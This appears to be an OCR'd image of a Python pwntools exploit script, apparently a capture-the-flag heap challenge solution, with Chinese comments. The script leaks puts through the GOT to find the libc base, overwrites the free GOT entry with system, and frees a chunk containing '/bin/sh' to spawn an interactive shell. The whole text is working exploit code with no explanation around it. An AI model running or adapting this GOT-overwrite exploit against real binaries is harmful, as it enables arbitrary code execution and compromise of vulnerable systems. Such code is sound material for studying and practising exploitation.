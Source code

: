 ```Python
    time.sleep(0.3)
    sh.sendline(str(index).encode())

# 执行一次free操作
add(1, 0x100, b'abc')
delete(1)

# 泄露puts地址，计算libc地址
pointer_to_puts_got_addr = 0x00400688  
offset = pointer_to_puts_got_addr - chunck_addr
assert offset % 16 == 8
index = (offset - 8) // 16
puts_addr = show(index)
puts_addr = u64(puts_addr[:6].ljust(8, b'\x00'))
libc_addr = puts_addr - libc.symbols['puts']

system_addr = libc_addr + libc.symbols['system']
print(f'libc_addr: {hex(libc_addr)}')
print(f'system_addr: {hex(system_addr)}')

# 修改free_got为system_addr
free_got = elf.got['free']
pause()
offset = free_got - chunck_addr
assert offset % 16 == 0
index = offset // 16
payload = int.from_bytes(p64(system_addr)[:4], 'little', signed=True)
assert payload >= 0
add(index, payload, b'/bin/sh\x00')
pause()
# 执行system('/bin/sh')
delete(index)
sh.interactive()
```

